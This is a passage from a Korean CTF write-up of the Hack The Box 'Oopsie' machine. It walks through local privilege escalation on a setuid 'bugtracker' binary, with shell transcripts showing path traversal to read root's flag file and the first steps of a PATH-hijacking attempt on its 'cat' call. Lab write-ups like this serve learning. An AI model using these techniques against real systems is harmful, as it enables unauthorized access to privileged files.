 ``` bash

robert@oopsie:/$ ls /root/reports
```

bugtracker로 ../../../와 같이 상위 경로로 올라가서 파일을 지정할 수 있다. 내가 원하는 방식은 파일을 지정해서 root 권한의 쉘을 획득 하는 것이였다. 아래와 같이 '/bin/sh'를 통해 whoami 실행을 확인하고 싶어 /home/robert/who 라는 파일로 저장하였고, bugtracker를 통해 지정하였다.

``` bash
robert@oopsie:/$  echo "/bin/sh -c 'whoami'" >  /home/robert/who

robert@oopsie:/$ bugtracker
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../home/robert/who
../../../home/robert/who
---------------

/bin/sh -c 'whoami'
```

예상과 다르게 내가 입력한 내용인 `/bin/sh -c 'whoami'`가 평문으로 출력되었다. 여기서부터는 어떻게 해야할지 몰라 공략을 참고하였다. 


내가 입력한 문자열일 출력되는 것은 bugtrakcer의 기능 중 'cat'과 유사한 기능을 하는 부분이 있어 그런 것이였다. 즉 setuid 권한으로 cat을 실행 할 수 있는 것과 같다. 보통 root의 flag 파일은 root.txt이기에 출력을 시도해보았다. 성공적으로 정답을 획득 할 수 있다.
``` bash
robert@oopsie:/$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../root/root.txt
../../../root/root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```

쉘을 연결하는 방법은 없을까 찾아보던 중 아래 블로그를 통해 방법을 확인하였다. 
> https://velog.io/@jjs9366/HTB-Oopsie

### Root Shell 획득 - 실패
해당 블로그 글의 후미에 기술된 바와 같이 진행하였으나, 1년 동안 문제 파일이 바뀐 것인지 동일한 방식으로는 되지 않았다(내가 뭔가 잘못 설정 했을 수도 있음). 그래도 이 과정을 기록해놓고자 메모 한다.


우선 bugtracker 구동 시 'cat' 명령어가 실행된다는 것을 기억해야 한다. 해당 cat 명령어는 로컬에 존재할 확률이 있으니, 어느 경로에 있는지 확인해보자. 아래와 같이 /bin/cat 에 위치해있고, 경로를 탐색할 때 주로 사용되는 $PATH 변수를 보면 후순위에 존재하고 있음을 알 수 있다.
``` bash
robert@oopsie:/$ find /bin -name 'cat'
/bin/cat

robert@oopsie:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

